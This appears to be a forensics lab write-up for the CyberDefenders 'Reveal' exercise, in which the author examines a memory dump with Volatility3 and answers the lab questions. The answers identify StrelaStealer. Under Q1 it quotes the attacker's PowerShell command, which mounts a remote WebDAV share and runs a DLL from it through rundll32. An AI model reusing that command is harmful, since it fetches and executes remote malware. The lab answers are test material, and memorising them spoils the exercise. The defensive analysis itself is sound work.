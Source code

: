 This is a brief description of my work on the CyberDefenders "Reveal" lab (category: Endpoint Forensics).  


Here is the scenario:
"As a cybersecurity analyst for a leading financial institution, an alert from your SIEM solution has flagged unusual activity on an internal workstation. Given the sensitive financial data at risk, immediate action is required to prevent potential breaches.
Your task is to delve into the provided memory dump from the compromised system. You need to identify basic Indicators of Compromise (IOCs) and determine the extent of the intrusion. Investigate the malicious commands or files executed in the environment, and report your findings in detail to aid in remediation and enhance future defenses."

To get started, I ran a few Volatility3 plugins with the output directed into their own file: psxview, pstree, cmdline, netscan, malfind. See the HTML files in this folder for the output.
Then I imported the output into a spreadsheet application for easier review: the tab-delimited output doesn't render correctly in Notepad or Notepad++, and its easier to sort the data.

I made some initial observations and bolded these rows for follow up later: 
powershell.exe and msiexec.exe in the "psxview" output, and
WMiPrvSE.exe, Calculator.exe (this is a child process of svchost.exe, which is suspicious), and the orphaned processes MicrosoftEdgeUpdater.exe, wordpad.exe, powershell.exe, and net.exe.

Looking at the "pstree" output, the command line associated with powershell.exe was the apparent malicious process: use of rundll32 to load a DLL over a network share is a popular method to load and execute code directly in memory, without leaving any disk artifacts behind.

Now for the questions!

Q1 Identifying the name of the malicious process helps in understanding the nature of the attack. What is the name of the malicious process? **powershell.exe**
- I ran the "pstree" plugin, identified a suspicious process and confirmed after a review of the command line used to execute it: 
`powershell.exe -windowstyle hidden net use \\45.9.74.32@8888\davwwwroot\ ; rundll32 \\45.9.74.32@8888\davwwwroot\3435.dll,entry`

Q2 Knowing the parent process ID (PID) of the malicious process aids in tracing the process hierarchy and understanding the attack flow. What is the parent PID of the malicious process? **4120**
- I learned this from reviewing the "pstree" output.

Q3 Determining the file name used by the malware for executing the second-stage payload is crucial for identifying subsequent malicious activities. What is the file name that the malware uses to execute the second-stage payload? **3435.dll**
- I learned this from reviewing the command described in the answer for Q1.

Q4 Identifying the shared directory on the remote server helps trace the resources targeted by the attacker. What is the name of the shared directory being accessed on the remote server? davwwwroot
- I learned this from reviewing the command described in the answer for Q1.

Q5 What is the MITRE sub-technique ID used by the malware to execute the second-stage payload? T1218.011 (System Binary Proxy Execution: Rundll32)
- I searched the MITRE ATT&CK website to find the sub-technique ID associated with rundll32.

Q6 Identifying the username under which the malicious process runs helps in assessing the compromised account and its potential impact. What is the username that the malicious process runs under? Elon
- I ran the "getsids" plugin against the malicious process ID.

Q7 Knowing the name of the malware family is essential for correlating the attack with known threats and developing appropriate defenses. What is the name of the malware family? STRELASTEALER
- I looked up the IP address from the command described in the answer for Q1 in VirusTotal.
